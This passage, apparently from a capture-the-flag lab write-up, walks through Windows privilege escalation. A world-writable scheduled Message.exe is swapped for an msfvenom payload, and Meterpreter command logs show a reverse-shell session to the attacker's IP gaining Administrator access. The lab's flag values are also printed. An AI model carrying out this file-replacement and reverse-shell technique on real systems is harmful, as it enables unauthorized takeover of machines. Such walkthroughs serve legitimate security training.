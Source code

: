 
Let see what services are running on the host and if there are any that we can use for exploit `meterpreter > ps`.

Of all the listed services, we can see windows scheduler is running.


     1376  672   WService.exe 
     1556  1376  WScheduler.exe 

Navigate to `c:\Program Files (x86)\SystemScheduler\Events` to examine the scheduler logs and the file `20198415519.INI_LOG.txt` shows there is a service `Message.exe` which is running every 30 seconds and the file is writable to everyone. 

    100777/rwxrwxrwx  536992   fil   2019-08-04 07:36:42 -0400  Message.exe

 Using the above, we can now replace this file with a malicious code which can spawn a shell. We already have a shell code that was generated using `msfvenom` earlier, so lets upload that to the victim and rename to Message.exe

    meterpreter > upload shell.exe 
    [*] uploading  : shell.exe -> shell.exe
    [*] Uploaded 72.07 KiB of 72.07 KiB (100.0%): shell.exe -> shell.exe
    [*] uploaded   : shell.exe -> shell.exe
    meterpreter > dir

Background the current Meterpreter session and start a new `multi/handler`  reverse shell listener. Wait for the scheduler to execute the malicious code and once executed, a new connection is established with administrator id. 

    meterpreter > background 
    [*] Backgrounding session 2...
    msf5 exploit(multi/handler) > run
    
    [*] Started reverse TCP handler on 10.2.18.4:4444 
    [*] Sending stage (176195 bytes) to 10.10.29.198
    [*] Meterpreter session 3 opened (10.2.18.4:4444 -> 10.10.29.198:64956) at 2020-07-05 12:56:07 -0400 
    meterpreter > shell
    Process 2484 created.
    Channel 1 created.
    Microsoft Windows [Version 6.3.9600]
    (c) 2013 Microsoft Corporation. All rights reserved.
    
    C:\PROGRA~2\SYSTEM~1>whoami
    whoami
    
    C:\PROGRA~2\SYSTEM~1>echo %username%
    echo %username%
    Administrator

We now have the Meterpreter session with Administrator access and grab the flags from `C:\Users\jeff\Desktop\user.txt` and `C:\Users\Administrator\Desktop\root.txt` which are 759bd8af507517bcfaede78a21a73e39 and 7e13d97f05f7ceb9881a3eb3d78d3e72 respectively. 


### Using WinPEAS
